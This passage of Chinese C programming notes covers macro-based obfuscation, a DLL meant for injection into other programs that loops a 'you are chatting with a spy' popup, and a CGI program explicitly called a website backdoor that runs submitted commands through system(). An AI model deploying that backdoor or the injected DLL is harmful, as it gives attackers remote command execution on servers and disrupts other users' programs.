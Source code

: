 
### defind
```
#defind PI 3.14 后面不需要加分号 因为其本质是替换 加了就成了 3.14;   
```


什么都能替换 代码混淆 易语言也是这样的原理

```


#include<stdio.h>
#include<stdlib.h>
#define 给老夫跑起来 main
#define 四大皆空 void 
#define 给老夫打印 printf
#define 给老夫pao system
四大皆空 给老夫跑起来()
{
 给老夫打印("gogogogog");
 给老夫pao("notepad");
 getchar();
}
```
### DLL _declspec
```
#include<stdlib.h>
#include<windows.h>


// _declspec(dllexport) 告诉外部可以调用，没有的话外部不可调用
_declspec(dllexport) void goA() 不需要main函数
{
 while (1)
 {
  MessageBoxA(0, "你在与间谍聊天", "请注意安全", 0);
 }
}
要编译成dll的文件，注入到其他程序中
```
### CGI
CGI：早期动态网页技术使用最多的，发展的比较成熟并且功能强大，但是效率比较低，编程比较困难。目前很少使用CGI做动态网页，主要应用与Linux和Unix操作系统中。
就是web服务器提供的一个可以执行服务器端程序接口的东西，可以用c c++ python 等各来写种语言
一个网站的后门cgi程序，可以执行各种系统的命令，当然用php也可以这样做的
```
void main()
{
    printf("Content-type:text/html\n\n");
    printf("%s<br><br>", getenv("QUERY_STRING"));//打印环境变量
    char szPost[256] = {0};
    gets(szPost);//获取输入
    printf("%s<br><br>", szPost);//获取输入
    //"BBB=tasklist&AAA=%C7%EB%BD%F8
    char *p = szPost + 4;//0,1,2,3
    char *p1 = strchr(szPost, '&');
    *p1 = '\0'; //弄个结束的位置
 
    char cmd[256] = { 0 };
    sprintf(cmd, "%s >1.txt", p);//字符串映射
    system(cmd);
    FILE *pf = fopen("1.txt", "r");
    while (!feof(pf))//如果没有到文件末尾就继续
    {
        char ch = fgetc(pf);
```